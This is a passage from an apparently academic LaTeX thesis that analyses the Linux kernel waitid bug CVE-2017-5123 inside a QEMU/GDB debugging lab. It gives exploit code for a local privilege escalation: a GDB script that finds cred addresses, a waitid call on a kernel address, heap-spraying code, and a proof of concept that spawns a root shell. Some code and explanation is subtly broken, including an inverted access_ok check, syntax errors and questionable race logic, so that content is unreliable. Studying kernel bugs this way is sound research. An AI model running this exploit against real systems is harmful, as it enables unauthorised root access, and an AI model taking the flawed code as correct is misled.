\chapter{Kernel exploitation - CVE-2017-5123}
\label{ch:cve-2017}
To better test our debugging environment and to verify its completeness of use, in this chapter we analyzed a real bug within the Linux kernel that allows us to get a root shell by performing a \emph{Local Privilege Escalation}~\cite{farah2017study}.
\section{Background}
\label{sect:back-cve-2017}
When handling system calls, the kernel must be able to read and write to the memory of the process that invoked the call. To do this, the kernel has special functions such as \texttt{copy\_from\_user}, \texttt{put\_user} and others, which copy data to or from the user area.

On a very high level, \texttt{put\_user} does approximately the following:
\begin{lstlisting}
put_user(x, void __user *ptr)
    if (access_ok(VERIFY_WRITE, ptr, sizeof(*ptr)))
        return -EFAULT
    user_access_begin()
    *ptr = x
    user_access_end()
\end{lstlisting}
The \texttt{access\_ok(...)} function checks that the pointer is in the user-land and not the kernel and, if so, disables SMAP via \texttt{user\_access\_begin} so that the kernel accesses the user area. Once the kernel has been written, SMAP is re-enabled.

The \texttt{user\_access\_begin/end} simply are the \textit{ASM}~\cite{salwan2014introduction} instruction \texttt{stac} and \texttt{clac}:
\begin{itemize}
\item \texttt{stac} sets the \textit{AC} flag bit in \texttt{EFLAGS} register. This may enable alignment checking of user-mode data accesses. This allows explicit supervisor-mode data accesses to user-mode pages even if the SMAP bit is set in the \texttt{CR4} register.
\item \texttt{clac} clears the \textit{AC} flag bit in \texttt{EFLAGS} register. It disables any alignment checking of user-mode data accesses. If the SMAP bit is set in the \texttt{CR4} register, it disallows explicit supervisor-mode and data accesses to user-mode pages.
\end{itemize}
\section{The Vulnerability}
\label{sect:vulnerability_17}
In the 4.13 kernel version, analyzing the \texttt{waitid}~\cite{waitid} system call inside the \texttt{/kernel/exit.c} file, it shows the presence of a bug.
\begin{lstlisting}[caption={waitid define},label={lst:definewaitid}]
SYSCALL_DEFINE5(waitid, int, which, pid_t, upid, struct siginfo __user *,
                                  infop, int, options, struct rusage __user *, ru)
{
    struct rusage r;
    struct waitid_info info = {.status = 0};
    long err = kernel_waitid(which, upid, &info, options, ru ? &r : NULL);
    int signo = 0;

    if (err > 0) {
        signo = SIGCHLD;
        err = 0;
        if (ru && copy_to_user(ru, &r, sizeof(struct rusage)))
            return -EFAULT;
        }
        if (!infop)
            return err;

        user_access_begin();
        unsafe_put_user(signo, &infop->si_signo, Efault);    <-    no access_ok call
        unsafe_put_user(0, &infop->si_errno, Efault);
        unsafe_put_user(info.cause, &infop->si_code, Efault);
        unsafe_put_user(info.pid, &infop->si_pid, Efault);
        unsafe_put_user(info.uid, &infop->si_uid, Efault);
        unsafe_put_user(info.status, &infop->si_status, Efault);
        user_access_end();
        return err;
Efault:
        user_access_end();
        return -EFAULT;
}
\end{lstlisting}
Quite often some system calls require many calls to \texttt{put/get_user} to copy data between kernel and user area.

So, to avoid repeated checks and enabling/disabling of SMAP, the kernel developers have introduced \emph{``unsafe''} versions: \texttt{unsafe_put/get_user} which simply do not provide checks.
In reality however, they are not \emph{``insecure''}, but to use them most appropriately, it is necessary to call \texttt{access\_ok} and \emph{``wrap''} everything between the \texttt{user\_access\_begin/end()} functions.


During the development phase, as it can be seen from the code \ref{lst:definewaitid}, the \texttt{access_ok} control is missing.
This lack leads to an arbitrary write since the \texttt{infop} pointer is completely controlled by the attacker allowing, therefore, to write values in an arbitrary address.

\subsection{Analyzing the system call}
\label{subsect:waitid}

In the system's manual \emph{``man''} ~\cite{torvalds2002Linux}, the system call \texttt{int waitid (idtype_t idtype, id_t id, siginfo_t * infop, int options)} waits for changes by a child process. It has four parameters.

The \texttt{idtype} and \texttt{id} arguments are used to specify which children \texttt{waitid} should wait for.

If \texttt{idtype} matches \texttt{P\_PID}, the function waits for the child with id equal to \texttt{id}.
If \texttt{idtype} matches \texttt{P\_PGID}, the function expects any child with group id equal to \texttt{id}.
If \texttt{idtype} matches \texttt{P\_ALL}, the function expects any child and \texttt{id} is ignored.

The \texttt{infop} data corresponds to a very complex data structure:

\begin{lstlisting}
typedef struct {
  int si_signo;
  int si_code;
  union sigval si_value;
  int si_errno;
  pid_t si_pid;
  uid_t si_uid;
  void *si_addr;
  int si_status;
  int si_band;
} siginfo_t;
\end{lstlisting}
Specifically, we are interested in the \texttt{uid\_t, si\_uid} data.
A \emph{UID} (user identifier) is a number assigned by Linux and different for each user on the system we are using.
It is used to identify the user on the system and to determine which system resources, such as files and folders, the user can access.
The root user has the UID equal to zero. Usually, new users of the system are assigned a number between 500 and 1000.
The UID of a process is saved in a data structure called \texttt{struct cred}.

The \texttt{options} parameter is used to specify which state change the \texttt{waitid} system call should wait.

\subsection{How the system call works}
\label{subsect:how_waitid}
To understand what the \texttt{waitid} system call does, we applied the same to a \texttt{signinfo\_t} variable in a C file, and assigned sensible values to the variable. Then, we displayed what it contains before and after the call to the system call.

\begin{lstlisting}
int main(){
  int p;
  int uid;
  int err;
  siginfo_t test;
  if (fork()==0){
        p = getpid();
        uid = getuid());
        sleep(5);
        test.si_signo = 1234;
        test.si_code = SIGILL;
        test.si_errno = 56;
        test.si_pid = p;
        test.si_uid = uid;
        printf("Address test %x\n",&test);
        printf("si_signo %d\n",test.si_signo);
        printf("si_errno %d\n",test.si_errno);
        printf("si_code %d\n",test.si_code);
        printf("si_pid %d\n",test.si_pid);
        printf("si_uid %d\n",test.si_uid);
        printf("si_status %d\n",test.si_status);
        printf("si_addr %x\n\n",test.si_addr);
        err = waitid(P_PID, p, &test, WEXITED, NULL);
        printf("After waitid \n");
        printf("si_signo %d\n",test.si_signo);
        printf("si_errno %d\n",test.si_errno);
        printf("si_code %d\n",test.si_code);
        printf("si_pid %d\n",test.si_pid);
        printf("si_uid %d\n",test.si_uid);
        printf("si_status %d\n",test.si_status);
        printf("si_addr %x\n\n",test.si_addr);
  }
\end{lstlisting}
\begin{figure}[h!]
   \makebox[\textwidth][c]{
\includegraphics[height=0.65
  \textwidth]{images/how-waitid-works.png}}
   \caption{Before and after using the \texttt{waitid} system call applied to a variable in userspace.}\label{figure:waitid_show}
\end{figure} 
As we see in figure \ref{figure:waitid_show}, after the call of the \texttt{waitid} the values inside the structure \texttt{siginfo\_t} are modified. The value related to the UID is modified with a value that allows us to obtain root privileges. Usually, there is a check on the memory area in which we are going to modify, as seen in \refToSection{back-cve-2017}. In this kernel, lacking a check in the \texttt{put_user} function we can overwrite the kernel memory as well
\section{Verify the bug}
\label{sect:bug}
Using the configuration for the Kernel seen in the \refToSection{configuration}, \emph{GDB}, seen in the \refToSubSection{gdb}, and the QEMU configuration seen in the \refToSubSection{QEMU}, it is possible to show how a local privilege escalation \emph{LPE} can be achieved.
\subsection{Python inside GDB}
\label{subsect:py_gdb}

By connecting to the virtual machine made ad hoc with QEMU we can see the activities in progress within the system with the command \texttt{lx-ps}.
This command shows the starting address that an activity occupies within the stack, the progressive number of activities corresponding to the activity and the name of the same.
Using GDB, with a Python program, we can take advantage of the commands provided by the kernel for the debugging phase.

\begin{lstlisting}
import os, tempfile
import gdb

class CachedType:
    def __init__(self, name):
        self._type = None
        self._name = name

    def _new_objfile_handler(self, event):
        self._type = None
        gdb.events.new_objfile.disconnect(self._new_objfile_handler)

    def get_type(self):
        if self._type is None:
            self._type = gdb.lookup_type(self._name)
            if self._type is None:
                raise gdb.GdbError(
                    "cannot resolve type '{0}'".format(self._name))
            if hasattr(gdb, 'events') and hasattr(gdb.events, 'new_objfile'):
                gdb.events.new_objfile.connect(self._new_objfile_handler)
        return self._type


long_type = CachedType("long")
\end{lstlisting}
The code defines an object that allows us to view shell's tasks.
\begin{lstlisting}
def get_long_type():
    global long_type
    return long_type.get_type()

def offset_of(typeobj, field):
    element = gdb.Value(0).cast(typeobj)
    return int(str(element[field].address).split()[0], 16)

def container_of(ptr, typeobj, member):
    return (ptr.cast(get_long_type()) -
            offset_of(typeobj, member)).cast(typeobj)

task_type = CachedType("struct task_struct")

init = gdb.parse_and_eval("init_task").address
def task_lists():
    task_ptr_type = task_type.get_type().pointer()
    t = g = init
    while True:
        while True:
            yield t

            t = container_of(t['thread_group']['next'],
                               task_ptr_type, "thread_group")
            if t == g:
                break

        t = g = container_of(g['tasks']['next'],
                               task_ptr_type, "tasks")
        if t == init:
            return
\end{lstlisting}
First of all, we have to create the pointers which allow us to navigate within the system addresses.
Then, we have to scan all the threads and tasks present and at the end we have to get a list of addresses about each active task.
\begin{lstlisting}[caption={Show address of the structure},label={lst:first_step}]
# Store the address in a file
f = open("kasl",'w')
c = 0
for task in task_lists():
    #gdb.write("{address}{pid}
    #{comm}\n".format(address=task,pid=task["pid"],comm=task["comm"].string()))
    comm = task["comm"].string()
    name_task = "activity"
    if comm == name_task:
        print(task['cred'])
        f.write(str(task['cred']))
        f.write("\n")
f.close()

Note that to run this program inside GDB 
we used the command: source -s -v filename.py
\end{lstlisting}
This last piece of code allows us to write to a file the address of the \texttt{task\_struct} structure which have as their name the task we want to search for.

This program allows us to print the address of the structure relating to the name of the process contained in the \texttt{name\_task} variable both on the GDB terminal and within a file.

\subsection{LPE with C file}
\label{subsect:lpe_c}

It is possible to develop a program in C that takes as input the address returned within GDB with the program~\ref{lst:first_step} and modify the structure \texttt{signinfo\_t} of the process gaining root privileges.
We consider like a process the user bash (test) which we are inside.

\begin{lstlisting}[caption={C code for exploit},label={lst:ccode}]
int main(){
  int p;
  int err;
  if (fork()==0){
        p = getpid();
        unsigned long long addr = 0xffff880176e81600;
        err = waitid(P_PID,p,addr,WEXITED);
  }
  return 0;
}
\end{lstlisting}
\begin{figure}[h!]
   \makebox[\textwidth][c]{
\includegraphics[height=0.59
  \textwidth]{images/lpe_with_c.png}}
  \caption{Example of local privilege escalation with GDB, DEBUG of Kernel and C file}\label{figure:lpe_c}
\end{figure}
The program \ref{lst:ccode} creates a fork~\cite{fork} and inserts the \emph{PID} of the newly created process into the \texttt{waitid} and waits for termination.
Using these few command lines, it is possible to obtain root privileges for the logged-in user.
 
As it can be seen from the figure~\ref{figure:lpe_c}, after the execution of the program the test user obtains root privileges and performs the operations as such.

\section{Exploitation}
\label{sect:exp-cve}   
 
In the \refToSection{vulnerability_17} we have seen how this vulnerability can be exploited to obtain root privileges. In a real attack scenario, we must consider that many techniques used previously are not available (to the attacker), therefore it is necessary to find alternatives.
We introduced how to combine everything to obtain a reliable program to perform this kind of exploit.

A small recap about the main concepts which we introduced:
\begin{itemize}
   \item we know how to exploit the vulnerability and write to memory;
   \item we can write zero to an arbitrary memory address;
   \item we know what \emph{UIDs} are and that by overriding their value we can escalate privileges.
\end {itemize}

The only thing that is missing is knowing the address to overwrite.
Since, even without enabling KASLR, we will not be able to find a stable address to write to in memory, a good technique to use is spraying.

\subsection{Spraying}
\label{subsect:spraying}

Spraying~\cite{ratanaworabhan2009nozzle} can be used to make it easier to exploit a vulnerability. This technique alone cannot be used to break security boundaries: a separate security issue is needed, as in our case.

Spraying takes advantage of the fact that in most architectures and operating systems the initial position of large heap allocations is predictable and consecutive allocations are roughly sequential. This is an important starting point for our goal.
Therefore, by creating a large number of structures within the heap, we are more likely to exploit a possible vulnerability.

In our case, it is necessary to identify a range of addresses where the structures are saved.
In order to find it, we created a maximum number of processes for the system and then we read the addresses of the structures with the program ~\ref{lst:first_step}.

We can run a program that creates processes a few times and see how addresses are changed, remembering to shut down the VM completely every time.
To create enough processes we can use the clone like the following:
\begin{lstlisting}[caption={Create processes},label={lst:spray}] 
stack=malloc(STACK_SIZE)+STACK_SIZE;
for(x=0;x<MAX_THREADS;x++){
  stackTop = malloc(STACK_SIZE) + STACK_SIZE;
  if (!stackTop){
    perror("[-] Malloc");
    return -1;
  }
  pid = clone(spray_thread, stackTop, CLONE_VM | CLONE_FS|CLONE_FILES|CLONE_SYSVSEM | SIGCHLD, NULL);
  if (pid == -1){
    perror("\n\nCLONE");
    return -1;
  }
  printf("[0] Process created: %d\r", x);
}
\end{lstlisting}

\subsection{Proof of concept}
\label{subsect:poc}

PoC is not very complex: it just create many threads and start overwriting at an arbitrary address. Our threads will only have to ``check'' their UID and do ``something'' in case it changes.

Initially we have to create processes with the program ~\ref{lst:spray} which all execute

 the \texttt{spray\_thread} function.
\begin{lstlisting}
int one_win;

// Sprayed thread
int spray_thread(void *arg){
  int uid;
  int previous_one = getuid();
  // Loop over syscall getUID
  while(1){
    uid = getuid();
    printf("UID: %d\n",uid);
    // If returned UID is different from the previous one, then we have hit a struct cred area
    if (uid != previous_one){
      printf("Previous one %d\n" , previous_one);
      printf("WIN!! with %d", uid);
      // Kill other treads in order to stabilize the system
      one_win = 1;
      // Simply spawn a shell
      system("/bin/sh");
    }
    if(one_win == 1)
      return 1;
  }
  return 0;
}
\end{lstlisting}
This function checks that the UID of the process has not changed. In case it has changed it means that we have overwritten the structure with the system call \texttt{waitid}, then call a shell. In this scenario, this shell should be called with root privileges.

The next step is, after having identified the address range with the \refToSubSection{spraying} method, iterate over that range by advancing 4Kb in an attempt to find the address of a structure saved in the heap.
\begin{lstlisting}
int thread_ready;
void *stack;
int trigger_bug(uint64_t where, int what){
  printf("[0] Trying to overwrite 0x%016lx\r", where);
  int p;
  
  thread_ready = what;
  if (fork()==0){
    p = getpid();
    printf("\n\n\npid:%d\n",p);
    thread_ready=1;
  }
  int err;
  while(thread_ready == 0) {sched_yield();}
  err = waitid(P_PID,p,where,WEXITED)
  printf("Print the result of the waitid %d \n",err);  
  return err;
}
\end{lstlisting}
\chapter{Conclusion}
There has been an increase in kernel attacks in recent years, due to bugs that can endanger the entire IT world.

In order to reduce this trend, and at the same time have an environment that allows the analysis of the kernels before being placed on the market, our aim is to introduce a debug environment to analyze them and adapt to the different kernels in circulation.

On the Internet there are several guides that allow the exploitation of kernels affected by bugs. Therefore our aim is also to bring together the different solutions found on the web under a single analysis environment.

To achieve our goal we have:
\begin{itemize}
\item explained what a kernel is and what it means to exploit it.  We also showed the difference between kernel-land and user-land by comparing two exploits;
\item introduced the debug environment by explaining what software we use, such as QEMU and GDB.  These combined with the configurations present in the kernel, allow the creation of such an environment;
\item explained the different mitigations that prevent possible kernel attacks.  First we introduced those also used in user-land and then those created ad hoc for the kernel.
\end{itemize}

To verify the effectiveness of the proposed debugging environment, we considered some use cases.
The first one, using an ad hoc exercise, in \refToChapter{adding mitigation}, we saw how our environment adapts well to the different kernel configurations and how it allows an effective analysis making everything very simple and intuitive.  Specifically, we also observed that it is not always possible to carry out an exploit having different mitigations active.
The second, considering a real bug present in a kernel, in \refToChapter{cve-2017}, to check if our environment works in real cases or not.
The choice to compose the debug environment with the software used was made on the basis of their simplicity in installation and ease of use.  They also allow to reduce the resources used for the debug phase thus having excellent performance.

We can conclude that our debugging environment performs well with different kernels and in different situations.  Its adaptability makes it a good tool for different user needs and if it were supported with a patching environment (for bug-affected kernels) it could be a complete suite for pre-market kernel analysis.


\bibliographystyle{alphaurl}
\bibliography{bib}
\end{document}




